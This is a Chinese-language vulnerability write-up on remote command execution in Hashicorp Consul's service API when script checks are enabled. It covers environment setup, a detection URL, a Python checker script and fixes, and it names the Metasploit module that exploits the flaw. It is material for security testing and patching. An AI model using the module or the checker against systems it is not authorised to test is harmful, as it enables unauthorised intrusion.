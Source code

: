 # 

# Hashicorp Consul Service API远程命令执行漏洞

## 漏洞描述

2018年11月27日，Consul在官方博客中发布了关于Consul工具在特定配置下可能导致远程命令执行（RCE）漏洞的公告，并描述了防护该漏洞的配置方案。

Consul是HashiCorp公司推出的一款开源工具，用于实现分布式系统的服务发现与配置。与其他分布式服务注册与发现的方案相比，Consul提供的方案更为“一站式”。Consul内置了服务注册与发现框架、分布一致性协议实现、健康检查、Key/Value存储、多数据中心方案，不再需要依赖其他工具（例如ZooKeeper等），使用方式也相对简单。

Consul使用Go语言编写，因此具有天然的可移植性（支持Linux、Windows和Mac OS X系统）；且安装包中仅包含一个可执行文件，便于部署，可与Docker等轻量级容器无缝配合。

在特定配置下，恶意攻击者可以通过发送精心构造的HTTP请求在未经授权的情况下在Consul服务端远程执行命令。

## 漏洞影响

启用了脚本检查参数（-enable-script-checks）的所有版本

## 环境搭建

以1.2.4为例，下载地址：https://releases.hashicorp.com/consul/1.2.4/

## 漏洞复现

Windows在当前目录下执行命令：

```
#开启脚本检测功能，该功能开启后漏洞才存在
consul.exe agent -dev -client <your-target-ip>  -enable-script-checks   
```

访问`your-target-ip:8500`：

![image-20230306091757424](images/image-20230306091757424.png)

验证是否存在该远程命令执行漏洞，访问以下网址，如果`EnableRemoteScriptChecks`参数为`true`，则漏洞存在：

```
http://your-target-ip:port/v1/agent/self
```

也可以使用Meterpreter进行利用：

```
msf6 > search Hashicorp
msf6 > use exploit/multi/misc/consul_service_exec
```

## 漏洞POC

```python
import requests
import argparse
from requests.packages import urllib3
urllib3.disable_warnings()
from colorama import init
init(autoreset=True)
import json
headers={
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0'
}
def url():
	des="Hashicorp Consul Service API远程命令执行漏洞POC"
	parser = argparse.ArgumentParser(description=des)
	parser.add_argument('target_url',type=str,help='The target address,example: http://192.168.140.153')
	args = parser.parse_args() 
	target_url = args.target_url
	print("Hashicorp Consul Service API远程命令执行漏洞POC")
	print("[-]正在执行检测...")
	print(f"[-]目标地址：{target_url}",)
	return target_url
def check(target_url):
	url = target_url + '/v1/agent/self'
	try:
		response = requests.get(url=url,headers=headers,verify=False,timeout=5).text
		value = json.loads(response)['DebugConfig']['EnableRemoteScriptChecks']
		if str(value) == 'True':
			print('\033[0;31m[+]漏洞存在\033[0m')
		else:
			print('漏洞不存在')
	except Exception as a:
		print('漏洞不存在')
	
if __name__ == '__main__':
	target_url = url()
	check(target_url)
```

## 漏洞修复

- 禁用Consul服务器上的脚本检查功能
- 确保Consul HTTP API服务无法通过外网访问或调用
- 对`/v1/agent/service/register` 禁止PUT方法
